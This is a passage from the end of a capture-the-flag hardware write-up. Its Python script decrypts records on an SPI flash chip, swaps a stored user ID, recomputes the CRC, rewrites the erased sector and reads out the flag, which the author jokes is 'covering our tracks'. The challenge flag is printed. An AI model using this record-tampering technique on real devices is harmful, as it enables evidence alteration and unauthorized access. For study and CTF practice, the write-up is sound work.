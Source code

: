 ```python
        if user_id == 0x5244:
            found_user_id = True
            print(f"Modifying record for User ID {user_id} at position {i}.")
            struct.pack_into("<H", decrypted_record, 6, 0x5299)  # Change user ID
            new_crc = binascii.crc32(decrypted_record) & 0xffffffff  # Recalculate CRC
            struct.pack_into("<I", data, i+12, new_crc)  # Update CRC in original data
            # Re-encrypt modified record
            for j, b in enumerate(decrypted_record):
                data[i+j] = b ^ key[j % len(key)]
    if not found_user_id:
        print("No records with User ID 0x5244 found, but proceeding with operations...")
    return data

def process_flash(records):
    exchange([0x06])  # Enable writing
    exchange([0x20, 0, 0, 0])  # Erase sector
    print("Erasing sector and writing modified data back...")
    for i in range(0, len(records), 256):
        write_data(records[i:i+256], i)

def retrieve_flag():
    flag_addr = sum(byte << (8 * idx) for idx, byte in enumerate(reversed(FLAG_ADDRESS)))
    flag_data = read_data(50, flag_addr)
    print("Flag found:", flag_data.rstrip(b"\xff").decode())

key = get_encryption_key()
records = read_data(RECORDS_SIZE, 0)
modified_records = modify_records(records, key)
process_flash(modified_records)
retrieve_flag()
```

And find how it runs, first execution - when the userID is found and altered - covering our tracks ;)

![image](https://github.com/respawnRW/writeups/assets/163560495/f3d4a3b4-43dd-4b7a-ada9-125747b1f1cf)

And this is what it looks like if we run again - no records are going to be found:

![image](https://github.com/respawnRW/writeups/assets/163560495/7d1b74af-1c80-4525-8b81-a18cd41ce3ba)

Job done! As final concluding thought, need to point out that manipulating data in a flash memory using erase or program instructions carries a risk. Always you should create a full memory dump of the chip. With a local dump of the memory, you can always restore it to its original state if needed. Especially if doing scripts or programatically manipulating the memory of a chip. Irreversible data loss is inevitable.

Flag: `HTB{n07h1n9_15_53cu23_w17h_phy51c41_4cc355!@}`

Be done with it.

Hope you find it useful,

`--RW`

## Resources

[W25Q64FW Datasheet](https://www.pjrc.com/teensy/W25Q128FV.pdf)


